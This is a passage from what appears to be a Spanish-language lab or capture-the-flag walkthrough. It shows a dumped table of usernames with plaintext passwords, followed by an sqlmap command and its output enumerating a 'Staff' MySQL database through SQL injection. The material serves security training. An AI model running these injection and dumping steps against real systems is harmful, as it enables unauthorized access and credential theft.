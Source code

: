 ```output
Table: UserDetails
[17 entries]
+-----------+---------------+
| username  | password      |
+-----------+---------------+
| marym     | 3kfs86sfd     |
| julied    | 468sfdfsd2    |
| fredf     | 4sfd87sfd1    |
| barneyr   | RocksOff      |
| tomc      | TC&TheBoyz    |
| jerrym    | B8m#48sd      |
| wilmaf    | Pebbles       |
| bettyr    | BamBam01      |
| chandlerb | UrAG0D!       |
| joeyt     | Passw0rd      |
| rachelg   | yN72#dsd      |
| rossg     | ILoveRachel   |
| monicag   | 3248dsds7s    |
| phoebeb   | smellycats    |
| scoots    | YR3BVxxxw87   |
| janitor   | Ilovepeepee   |
| janitor2  | Hawaii-Five-0 |
+-----------+---------------+
```


Obtenemos los credenciales en texto plano de los usuarios que aparecían en la web.
El siguiente paso sería comprobar si alguno de estos credenciales nos permite loggearnos como en la web, aunque ya os adelanto que este no es el caso, así que nos quedaría comprobar si la base de datos de staff tiene algo que nos pueda servir.<br>

### Obtener tablas de Staff


```shell
python3 sqlmap.py -r <ruta_archivo> -D Staff --tables
```
```output
-- output --

---
[01:25:15] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[01:25:15] [INFO] fetching tables for database: 'Staff'
Database: Staff
[2 tables]
+--------------+
| StaffDetails |
| Users        |
+--------------+
```
